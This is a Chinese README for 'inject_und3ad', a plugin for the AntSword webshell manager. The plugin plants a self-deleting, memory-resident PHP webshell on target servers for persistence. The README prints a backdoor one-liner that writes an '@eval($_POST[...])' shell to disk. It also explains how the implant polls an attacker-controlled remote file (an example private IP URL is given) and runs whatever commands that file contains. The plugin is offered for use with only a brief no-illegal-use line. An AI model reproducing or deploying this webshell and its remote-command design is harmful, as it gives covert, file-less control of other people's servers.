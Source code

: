 # inject_und3ad

中国蚁剑（Antsword）插件

向目标服务器植入不死php webshell

## 演示

* 权限维持

![inject.png](./img/inject.png)

点击左上角远程文件按钮，输入远程控制文件地址以及轮询时间（以秒为单位），点击确定即可（分隔符为###）

For example : http://192.168.134.128/1.txt###60   每60秒轮询一次http://192.168.134.128/1.txt里的内容

文件内容类似于 file_put_contents('./1.php','<?php @eval($_POST[ph4ntom]); ?>');  (密码可自定义，路径也可自定义，此文件内容旨在每隔一段时间写入一个小马)

上述旨在利用php特性植入不死webshell，在执行完成后，此webshell会基于用户设置的轮询时间向用户设置的远程文件地址发送请求，用户只需在远程地址的txt文档中输入想要执行的命令即可
可。

此webshell在执行后会自身删除，驻留内存之中，无文件残留

清除办法包括重启web服务等


## 注意事项

  此插件仅支持php环境
  
  在远程文件上如果不打算执行命令，请在远程文件中写入一个空格，否则此webshell会退出。
  
  使用者不得用于非法用途
  
## Todo

  单独记录每一个shell所设置的不死马远程地址，方便使用者使用（这是我为何在下方留了一大块空白的原因）
 

